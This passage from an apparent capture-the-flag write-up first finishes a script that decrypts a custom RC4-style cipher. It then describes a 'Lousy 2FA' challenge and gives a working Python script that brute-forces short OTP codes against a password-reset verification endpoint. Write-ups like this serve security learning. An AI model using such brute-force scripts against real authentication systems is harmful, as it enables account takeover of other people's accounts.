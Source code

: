 ```python
]

# Step 1: Initialize the S-box with the cipher key
initialized_s_box = custom_rc4_init(cipher_key)

# Step 2: Perform the custom second shuffling on the S-box
final_s_box = custom_second_shuffle(initialized_s_box)

# Step 3: Recover the original flag bytes by XORing with the final S-box
recovered_flag_bytes = recover_original_data(final_s_box, encrypted_flag_bytes)

# Print the recovered flag, attempting to decode as a string.
# 'errors="replace"' handles any bytes that don't form valid UTF-8 characters.
print("Recovered input:", recovered_flag_bytes.decode(errors="replace"))

```

---

## Lousy 2FA

First, I checked `/robots.txt`, which revealed the `/forgot-password` endpoint. Examining the `script.js` file associated with the forgot password functionality, I found the `fetch` request to `/send-otp`:



```js
fetch('/send-otp', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ email: emailInput.value,
        // length: 8 // This was commented out
    }),
})
```

The commented-out `length: 8` was a crucial hint. It suggested that while an 8-digit OTP was initially intended, the server might accept shorter lengths. I then used a Python script to brute-force OTPs of varying lengths, starting from 1, by sending requests to `/verify-otp`.

Here's my brute-forcing script:



```python
import requests

# URL of the OTP verification endpoint
url = "http://4.240.104.200:5003/verify-otp"

# Try OTP values from 0 to 99
for otp_value in range(100):
    payload = {
        "email": "admin@example.com",
        "otp": str(otp_value)  # Convert OTP to string
    }

    # Send the POST request with JSON payload
    response = requests.post(url, json=payload)

    # Check response text for success (anything not containing "Invalid")
    if "Invalid" not in response.text:
        print(f"[+] OTP found: {otp_value}")
        print("Server response:", response.text)
        break  # Stop after finding the correct OTP

```